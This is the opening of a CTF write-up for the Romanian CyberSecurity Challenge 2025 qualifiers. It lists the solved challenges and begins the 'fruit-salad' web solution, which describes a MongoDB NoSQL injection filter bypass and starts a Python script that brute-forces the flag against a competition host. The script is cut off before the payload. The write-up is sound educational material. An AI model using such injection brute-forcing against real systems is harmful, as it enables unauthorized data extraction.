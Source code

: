 ```yaml
---
title: ROCSC 2025 - Writeups
date: 2025-03-03 00:00:00 +0200
categories: [CTF Writeups, ROCSC]
tags: [reverse,mobile,web,forsenics,stegano,osint,crypto]
image: /assets/img/logos/logo-rocsc.png
seo:
  keywords: [reverse,mobile,web,forsenics,stegano,osint,crypto,ROCSC,ROCSC 2025,CTF,CTF Writeups,ROCSC 2025 Online Qualifiers,Cyberedu,Cyberedu CTF,CTF,CTF Writeups, Romanian CyberSecurity Challenge, Romanian CyberSecurity Challenge 2025, Romanian CyberSecurity Challenge 2025 Online Qualifiers] 
---
```


# Write-ups for Romanian CyberSecurity Challenge 2025 Online Qualifiers.

![Clasament](https://github.com/user-attachments/assets/cdcc165a-60b3-4e91-9a84-3c4466e36d98)
**7th place in the competition and 4th place on Junior category.**

List of challenges solved:
- [Write-ups for Romanian CyberSecurity Challenge 2025 Online Qualifiers.](#write-ups-for-romanian-cybersecurity-challenge-2025-online-qualifiers)
    - [fruit-salad (Web)](#fruit-salad-web)
    - [formula1 (Web)](#formula1-web)
    - [exfill - very funny (Network/Cryptography)](#exfill---very-funny-networkcryptography)
    - [tractor (Reverse Engineering)](#tractor-reverse-engineering)
    - [mathrix (Cryptography)](#mathrix-cryptography)
    - [optimus (Reverse Engineering)](#optimus-reverse-engineering)
    - [totally-hidden (Malware/OSINT)](#totally-hidden-malwareosint)
    - [iarasi (Misc)](#iarasi-misc)
    - [jail-rust (Misc)](#jail-rust-misc)
    - [dr-ained (OSINT)](#dr-ained-osint)
    - [master-of-the-triple-residences (OSINT)](#master-of-the-triple-residences-osint)
    - [snatcher (Web)](#snatcher-web)
    - [th-job (Threat Hunting/Foresics)](#th-job-threat-huntingforesics)
    - [strange-puzzle (Reverse Engineering)](#strange-puzzle-reverse-engineering)

### fruit-salad (Web)
Description: 
```
This new web application to order fruit salads is really nice, I hope I can add mango into mine.
```

The challenge was a web application that allowed us to order fruits. The application was vulnerable to mongodb injection. (Hint from the challenge description: `I hope I can add mango into mine.`, mango = mongo)
The app was vulnerable to NoSQL injection, so we could bypass the filters and get the flag, for this I used unicode characters to bypass the filters.

Solution:
```python
import requests
import string

URL = "http://35.198.97.185:32088/order"
# Allowed characters in sha256 hash
alphabet = string.ascii_letters + string.digits + "}"
current_flag = "CTF{"

while True:
    ok = False
    for test_char in alphabet:
        request_data = '''
```